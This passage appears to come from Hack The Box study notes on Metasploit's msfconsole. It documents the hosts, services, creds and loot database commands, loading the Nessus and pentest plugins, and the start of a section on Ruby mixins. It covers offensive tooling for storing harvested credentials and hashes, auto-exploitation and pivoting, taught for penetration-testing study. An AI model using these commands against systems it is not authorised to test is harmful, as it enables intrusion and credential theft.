  -C <col1,col2>    Only show the given columns until the next restart (see list below)
  -h,--help         Show this help information
  -u,--up           Only show hosts which are up
  -o <file>         Send output to a file in CSV format
  -O <column>       Order rows by specified column number
  -R,--rhosts       Set RHOSTS from the results of the search
  -S,--search       Search string to filter by
  -i,--info         Change the info of a host
  -n,--name         Change the name of a host
  -m,--comment      Change the comment of a host
  -t,--tag          Add or specify a tag to a range of hosts

Available columns: address, arch, comm, comments, created_at, cred_count, detected_arch, exploit_attempt_count, host_detail_count, info, mac, name, note_count, os_family, os_flavor, os_lang, os_name, os_sp, purpose, scope, service_count, state, updated_at, virtual_host, vuln_count, tags
```

### Services

The ```services``` command functions the same way as the previous one. It contains a table with descriptions and information on services discovered during scans or interactions.

#### MSF - Stored Services of Hosts

```bash
msf6 > services -h

Usage: services [-h] [-u] [-a] [-r <proto>] [-p <port1,port2>] [-s <name1,name2>] [-o <filename>] [addr1 addr2 ...]

  -a,--add          Add the services instead of searching
  -d,--delete       Delete the services instead of searching
  -c <col1,col2>    Only show the given columns
  -h,--help         Show this help information
  -s <name>         Name of the service to add
  -p <port>         Search for a list of ports
  -r <protocol>     Protocol type of the service being added [tcp|udp]
  -u,--up           Only show services which are up
  -o <file>         Send output to a file in csv format
  -O <column>       Order rows by specified column number
  -R,--rhosts       Set RHOSTS from the results of the search
  -S,--search       Search string to filter by
  -U,--update       Update data for existing service

Available columns: created_at, info, name, port, proto, state, updated_at
```

### Credentials

The ```creds``` command allows you to visualize the credentials gathered during your interaction with the target host.

#### MSF - Stored Credentials

```bash
msf6 > creds -h

With no sub-command, list credentials. If an address range is
given, show only credentials with logins on hosts within that
range.

Usage - Listing credentials:
  creds [filter options] [address range]

Usage - Adding credentials:
  creds add uses the following named parameters.
    user      :  Public, usually a username
    password  :  Private, private_type Password.
    ntlm      :  Private, private_type NTLM Hash.
    Postgres  :  Private, private_type Postgres MD5
    ssh-key   :  Private, private_type SSH key, must be a file path.
    hash      :  Private, private_type Nonreplayable hash
    jtr       :  Private, private_type John the Ripper hash type.
    realm     :  Realm, 
    realm-type:  Realm, realm_type (domain db2db sid pgdb rsync wildcard), defaults to domain.

Examples: Adding
   # Add a user, password and realm
   creds add user:admin password:notpassword realm:workgroup
   # Add a user and password
   creds add user:guest password:'guest password'
   # Add a password
   creds add password:'password without username'
   # Add a user with an NTLMHash
   creds add user:admin ntlm:E2FC15074BF7751DD408E6B105741864:A1074A69B1BDE45403AB680504BBDD1A
   # Add a NTLMHash
   creds add ntlm:E2FC15074BF7751DD408E6B105741864:A1074A69B1BDE45403AB680504BBDD1A
   # Add a Postgres MD5
   creds add user:postgres postgres:md5be86a79bf2043622d58d5453c47d4860
   # Add a user with an SSH key
   creds add user:sshadmin ssh-key:/path/to/id_rsa
   # Add a user and a NonReplayableHash
   creds add user:other hash:d19c32489b870735b5f587d76b934283 jtr:md5
   # Add a NonReplayableHash
   creds add hash:d19c32489b870735b5f587d76b934283

General options
  -h,--help             Show this help information
  -o <file>             Send output to a file in csv/jtr (john the ripper) format.
                        If the file name ends in '.jtr', that format will be used.
                        If file name ends in '.hcat', the hashcat format will be used.
                        CSV by default.
  -d,--delete           Delete one or more credentials

Filter options for listing
  -P,--password <text>  List passwords that match this text
  -p,--port <portspec>  List creds with logins on services matching this port spec
  -s <svc names>        List creds matching comma-separated service names
  -u,--user <text>      List users that match this text
  -t,--type <type>      List creds that match the following types: password,ntlm,hash
  -O,--origins <IP>     List creds that match these origins
  -R,--rhosts           Set RHOSTS from the results of the search
  -v,--verbose          Don't truncate long password hashes

Examples, John the Ripper hash types:
  Operating Systems (starts with)
    Blowfish ($2a$)   : bf
    BSDi     (_)      : bsdi
    DES               : des,crypt
    MD5      ($1$)    : md5
    SHA256   ($5$)    : sha256,crypt
    SHA512   ($6$)    : sha512,crypt
  Databases
    MSSQL             : mssql
    MSSQL 2005        : mssql05
    MSSQL 2012/2014   : mssql12
    MySQL < 4.1       : mysql
    MySQL >= 4.1      : mysql-sha1
    Oracle            : des,oracle
    Oracle 11         : raw-sha1,oracle11
    Oracle 11 (H type): dynamic_1506
    Oracle 12c        : oracle12c
    Postgres          : postgres,raw-md5

Examples, listing:
  creds               # Default, returns all credentials
  creds 1.2.3.4/24    # Return credentials with logins in this range
  creds -O 1.2.3.4/24 # Return credentials with origins in this range
  creds -p 22-25,445  # nmap port specification
  creds -s ssh,smb    # All creds associated with a login on SSH or SMB services
  creds -t NTLM       # All NTLM creds
  creds -j md5        # All John the Ripper hash type MD5 creds

Example, deleting:
  # Delete all SMB credentials
  creds -d -s smb
```

### Loot

The ```loot``` command works in conjuction with the command above to offer you an at-a-glance list of owned services and users.

#### MSF - Stored Loot

```bash
msf6 > loot -h

Usage: loot [options]
 Info: loot [-h] [addr1 addr2 ...] [-t <type1,type2>]
  Add: loot -f [fname] -i [info] -a [addr1 addr2 ...] -t [type]
  Del: loot -d [addr1 addr2 ...]

  -a,--add          Add loot to the list of addresses, instead of listing
  -d,--delete       Delete *all* loot matching host and type
  -f,--file         File with contents of the loot to add
  -i,--info         Info of the loot to add
  -t <type1,type2>  Search for a list of types
  -h,--help         Show this help information
  -S,--search       Search string to filter by
```

## Plugins

... are readily available software that has already been released by third parties and have given approval to the creators of Metasploit to integrate their software inside the framework.

### Using Plugins

To start using a plugin, you will need to ensure it is installed in the correct directory on your machine. Navigating to ```/usr/share/metasploit-framework/plugins```, which is the default directory for every new installation of msfconsole, should show you which plugins you have to your availability.

If the plugin is found there, you can fire it up inside msfconsole and will be met with the greeting output for that specific plugin, signaling that it was successfully loaded in and is now ready to use.

#### MSF - Load Nessus

```bash
msf6 > load nessus

[*] Nessus Bridge for Metasploit
[*] Type nessus_help for a command listing
[*] Successfully loaded Plugin: Nessus


msf6 > nessus_help

Command                     Help Text
-------                     ---------
Generic Commands            
-----------------           -----------------
nessus_connect              Connect to a Nessus server
nessus_logout               Logout from the Nessus server
nessus_login                Login into the connected Nessus server with a different username and 

<SNIP>

nessus_user_del             Delete a Nessus User
nessus_user_passwd          Change Nessus Users Password
                            
Policy Commands             
-----------------           -----------------
nessus_policy_list          List all polciies
nessus_policy_del           Delete a policy
```

### Installing new Plugins

To install new custom plugins not included in new updates of the distro, you can take the .rb file provided on the maker's page and replace it in the folder at ```/usr/share/metasploit-framework/plugins``` with the proper permissions.

#### Downloading MSF Plugins

```bash
d41y@htb[/htb]$ git clone https://github.com/darkoperator/Metasploit-Plugins
d41y@htb[/htb]$ ls Metasploit-Plugins

aggregator.rb      ips_filter.rb  pcap_log.rb          sqlmap.rb
alias.rb           komand.rb      pentest.rb           thread.rb
auto_add_route.rb  lab.rb         request.rb           token_adduser.rb
beholder.rb        libnotify.rb   rssfeed.rb           token_hunter.rb
db_credcollect.rb  msfd.rb        sample.rb            twitt.rb
db_tracker.rb      msgrpc.rb      session_notifier.rb  wiki.rb
event_tester.rb    nessus.rb      session_tagger.rb    wmap.rb
ffautoregen.rb     nexpose.rb     socket_logger.rb
growl.rb           openvas.rb     sounds.rb
```

#### MSF - Copying Plugin to MSF

```bash
d41y@htb[/htb]$ sudo cp ./Metasploit-Plugins/pentest.rb /usr/share/metasploit-framework/plugins/pentest.rb
```

Afterward, launch msfconsole and check the plugin's installation by running the ```load``` command. After the plugin has been loaded, the help menu at the msfconsole is automatically extended by additional functions.

#### MSF - Load Plugin

```bash
d41y@htb[/htb]$ msfconsole -q

msf6 > load pentest

       ___         _          _     ___ _           _
      | _ \___ _ _| |_ ___ __| |_  | _ \ |_  _ __ _(_)_ _
      |  _/ -_) ' \  _/ -_|_-<  _| |  _/ | || / _` | | ' \ 
      |_| \___|_||_\__\___/__/\__| |_| |_|\_,_\__, |_|_||_|
                                              |___/
      
Version 1.6
Pentest Plugin loaded.
by Carlos Perez (carlos_perez[at]darkoperator.com)
[*] Successfully loaded plugin: pentest


msf6 > help

Tradecraft Commands
===================

    Command          Description
    -------          -----------
    check_footprint  Checks the possible footprint of a post module on a target system.


auto_exploit Commands
=====================

    Command           Description
    -------           -----------
    show_client_side  Show matched client side exploits from data imported from vuln scanners.
    vuln_exploit      Runs exploits based on data imported from vuln scanners.


Discovery Commands
==================

    Command                 Description
    -------                 -----------
    discover_db             Run discovery modules against current hosts in the database.
    network_discover        Performs a port-scan and enumeration of services found for non pivot networks.
    pivot_network_discover  Performs enumeration of networks available to a specified Meterpreter session.
    show_session_networks   Enumerate the networks one could pivot thru Meterpreter in the active sessions.


Project Commands
================

    Command       Description
    -------       -----------
    project       Command for managing projects.


Postauto Commands
=================

    Command             Description
    -------             -----------
    app_creds           Run application password collection modules against specified sessions.
    get_lhost           List local IP addresses that can be used for LHOST.
    multi_cmd           Run shell command against several sessions
    multi_meter_cmd     Run a Meterpreter Console Command against specified sessions.
    multi_meter_cmd_rc  Run resource file with Meterpreter Console Commands against specified sessions.
    multi_post          Run a post module against specified sessions.
    multi_post_rc       Run resource file with post modules and options against specified sessions.
    sys_creds           Run system password collection modules against specified sessions.

<SNIP>
```

## Mixins

... are classes that act as methods for use by other classes without having to be the parent class of those other classes. Thus, it would be deemed inappropriate to call it inheritance but rather inclusion. They are mainly used when you:

1. want to provide a lot of optional features for a class
2. want to use one particular feature for a multitude of classes

Most of Ruby programming language resolves around Mixins as Modules.